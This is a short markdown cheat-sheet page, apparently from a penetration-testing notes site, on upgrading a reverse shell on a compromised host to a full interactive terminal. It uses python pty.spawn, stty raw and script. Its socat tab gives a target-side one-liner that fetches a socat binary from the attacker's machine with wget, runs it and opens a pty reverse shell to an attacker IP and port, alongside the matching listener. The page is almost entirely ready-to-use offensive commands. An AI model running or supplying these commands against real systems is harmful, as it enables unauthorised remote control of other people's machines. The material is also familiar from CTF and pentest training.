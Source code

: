 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["shell", "python", "bash", "sh", "tty"]
---
```


### Upgrade Shell

#### Check installed binaries

```console
which sh
```

```console
which bash
```

```console
which python3
```

```console
which python
```

{{< tab set1 tab1 active >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```console
# After fg, press enter again, then
export TERM=xterm-256color
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Start a local http server
python3 -m http.server 80
```

```console
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:<LOCAL_PORT>
```

```console
# In target machine
wget -q http://<LOCAL_IP>/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# In our local Linux machine
export TERM=xterm-256color
```

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
script -qc /bin/bash /dev/null
```

{{< /tabcontent >}}
